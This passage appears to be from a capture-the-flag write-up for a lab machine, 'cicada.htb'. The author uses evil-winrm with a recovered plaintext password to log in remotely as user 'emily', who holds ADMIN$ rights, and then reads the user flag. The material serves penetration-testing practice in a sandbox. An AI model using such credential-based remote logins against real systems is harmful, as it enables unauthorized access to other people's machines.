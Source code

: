 Emily has the permissions we want, `ADMIN$`. Remote Admin.

Let's go all in, we will use `evil-winrm` to log in the system as `emily`.

```bash
evil-winrm -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -i cicada.htb
```

![emilyevil](docs/evilwinrm%20stap%2012.png)

We are inside! Let's grab the `user flag`.

```
cd ..
cd Desktop
cat user.txt
```

![userflag](docs/userflag.png)

🎉 Access to user flag.
